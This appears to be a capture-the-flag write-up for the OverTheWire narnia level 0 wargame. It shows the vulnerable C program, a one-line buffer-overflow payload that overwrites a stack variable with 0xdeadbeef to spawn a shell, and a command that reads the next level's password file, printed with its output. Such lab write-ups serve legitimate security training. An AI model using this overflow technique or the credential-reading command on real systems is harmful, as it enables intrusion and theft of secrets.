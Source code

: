 # narnia 0

    # ssh narnia0@narnia.labs.overthewire.org
    password: narnia0

    # cat /games/narnia/narnia0.c

    #include <stdio.h>
    #include <stdlib.h>

    int main(){
        long val=0x41414141;
        char buf[20];

        printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
        printf("Here is your chance: ");
        scanf("%24s",&buf);

        printf("buf: %s\n",buf);
        printf("val: 0x%08x\n",val);

        if(val==0xdeadbeef)
            system("/bin/sh");
        else {
            printf("WAY OFF!!!!\n");
            exit(1);
        }

        return 0;
    }

    # ((echo -e "12345123451234512345\xef\xbe\xad\xde");(echo cat /etc/narnia_pass/narnia1)) | /games/narnia/narnia0
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: buf: 12345123451234512345ﾭ�
    val: 0xdeadbeef
    efeidiedae

